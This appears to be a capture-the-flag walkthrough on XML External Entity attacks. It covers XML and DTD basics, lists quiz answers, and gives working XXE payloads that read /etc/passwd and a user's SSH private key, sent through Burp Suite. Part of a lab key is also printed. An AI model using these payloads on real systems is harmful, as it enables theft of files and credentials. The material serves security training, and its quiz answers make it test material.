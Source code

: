 # Task 12~16

# Extensible Markup Language

## Full form of XML

### Answer

Extensible Markup Language

## Is it compulsory to have XML prolog in XML documents?

### Answer

no

## Can we validate XML documents against a schema?

### Answer

yes

## How can we specify XML version and encoding in XML document?

### Answer

XML Prolog

# DTD

Before we move on to start learning about XXE we'll have to understand what is DTD in XML.

DTD stands for Document Type Definition. A DTD defines the structure and the legal elements and attributes of an XML document.

Let us try to understand this with the help of an example. Say we have a file named note.dtd with the following content:

```xml
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>

```

Now we can use this DTD to validate the information of some XML document and make sure that the XML file conforms to the rules of that DTD.
Ex: Below is given an XML document that uses note.dtd

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```


So now let's understand how that DTD validates the XML. Here's what all those terms used in note.dtd mean

```
!DOCTYPE note -  Defines a root element of the document named note
!ELEMENT note - Defines that the note element must contain the elements: "to, from, heading, body"
!ELEMENT to - Defines the to element to be of type "#PCDATA"
!ELEMENT from - Defines the from element to be of type "#PCDATA"
!ELEMENT heading  - Defines the heading element to be of type "#PCDATA"
!ELEMENT body - Defines the body element to be of type "#PCDATA"

NOTE: #PCDATA means parseable character data.
```

## How do you define a new ELEMENT?
### Answer

!ELEMENT

## How do you define a ROOT element?
### Answer

!DOCTYPE

## How do you define a new ENTITY?
### Answer

!ENTITY

# XXE Payload

1) The first payload we'll see is very simple. If you've read the previous task properly then you'll understand this payload very easily.

```xml
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```


As we can see we are defining a ENTITY called name and assigning it a value feast. Later we are using that ENTITY in our code.

2) We can also use XXE to read some file from the system by defining an ENTITY and having it use the SYSTEM keyword

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>

```

Here again, we are defining an ENTITY with the name read but the difference is that we are setting it value to `SYSTEM` and path of the file.

If we use this payload then a website vulnerable to XXE(normally) would display the content of the file **/etc/passwd**.

In a similar manner, we can use this kind of payload to read other files but a lot of times you can fail to read files in this manner or the reason for failure could be the file you are trying to read.

# XML External Entity - Exploiting

```xml
<!DOCTYPE replace [<!ENTITY name "renan"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```

```xml
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```


## What is the name of the user in /etc/passwd

1. Open Burpsuite
2. Turn on intercept
3. Inject XML attack
   ```xml
   <?xml version="1.0"?>
    <!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
    <root>&read;</root>
   ```
4. Send attack to repeater
5. Change **xxe** with a more human readable format

```xml
xxe=
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

### Answer

Found user **falcon**

## Where is falcon's SSH key located?
### Answer

```
/home/falcon/.ssh/id_rsa
```

## What are the first 18 characters for falcon's private key

```xml
xxe=
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:////home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

### Answer

```
MIIEogIBAAKCAQEA7b
```

![picture 3](../../../images/1c53c1c5050e2504c01a0a382e0b64414d31ba526bfb427fe70ddc55e5142a3c.png)  
